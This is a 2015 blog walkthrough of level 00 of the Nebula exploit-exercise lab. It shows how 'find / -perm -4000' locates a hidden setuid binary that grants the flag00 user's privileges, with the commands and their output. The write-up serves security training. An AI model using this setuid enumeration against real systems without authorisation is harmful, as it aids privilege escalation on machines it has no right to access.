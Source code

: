 ```yaml
---
title: 'Nebula Exploit Exercise Level 00 Walkthrough'
date: 2015-06-12T07:11:00.000-07:00
draft: false
url: /2015/06/nebula-exploit-exercise-level-00.html
---
```


#### Intro

So this is more of a reminder post to myself to track my progress through this thing, but I thought I might as well do a post seeing as there are already about 6 other solutions out there and the authors don't seem to mind walkthroughs too much.

That being said, this is level 00. If your getting stuck on this, you should seriously try harder before you look at the solution. If you want to check your work however and think you have the solution, feel free to read on :)


#### The Problem

For Nebula's level 00 exercise, we are tasked with finding a setuid program that will run as the flag00 user. We are also given the hint that reading the manual page for the find command may help us find where this file is located.



So my first approach to this was to look up the manual page for the find command. However the manual page for the find command contains many different options and switches. Lets try grep out anything mentioning setuid or something along those lines shall we?



#### Solving the Problem

First we log in with the username level00 and the password level00. Following this we issue the following command:

> _man find | grep -i suid_

> _     \\( -perm -4000 -fprintf /root/suid.txt %#m %u %p\\n \\) , \\
>       into /root/suid.txt and large files into /root/big.txt. _

We see that we can could run _find / -perm -4000_ to find all of the files with the setuid bit set from the root directory downwards. But why is this the case? If we look up setuid within Wikipedia we get the following information:

> _The `setuid` and `setgid` bits are normally set with the command `[chmod](https://en.wikipedia.org/wiki/Chmod "Chmod")` by setting the high-order octal digit to 4 for `setuid` or 2 for `setgid`. "`chmod 6711 _file_`" will set both the `setuid` and `setgid` bits (2+4=6) (Wikipedia, 2015, June 12 2015, [https://en.wikipedia.org/wiki/Setuid](https://en.wikipedia.org/wiki/Setuid))_

Thus from this we can see that within the UNIX privilege management system, the first number (the 6 in _chmod 6711_) denotes if the file has setuid or setgid permissions or not. Thus by searching for files via _find / -perm -4000_ we are effectively searching for all of the files which have the setuid bit set. However this could return quite a few files, so lets pipe the output to a file and then cat the result.

> _level00@nebula:~$ find / -perm -4000 > /tmp/results.txt_
> _level00@nebula:~$ cat /tmp/results.txt
> /bin/.../flag00
> /bin/fusermount
> /bin/mount
> /bin/ping
> /bin/ping6
> /bin/su
> /bin/umount
> /sbin/mount.ecryptfs\_private
> /usr/bin/at
> /usr/bin/chfn
> /usr/bin/chsh
> /usr/bin/gpasswd_

Ah, there we go :) We see that there is a file _/bin/.../flag00_ which seems to hold the suid flag that we need to complete this level. Lets check:

> _level00@nebula:~$ ls -alh /bin/.../flag00
> \-rwsr-x--- 1 flag00 level00 7.2K 2011-11-20 21:22 /bin/.../flag00_

That looks like the one :) And if we execute it and then run _getflag_, we will see we have completed the challenge:

> _level00@nebula:~$ /bin/.../flag00
> Congrats, now run getflag to get your flag!
> flag00@nebula:~$ getflag
> You have successfully executed getflag on a target account_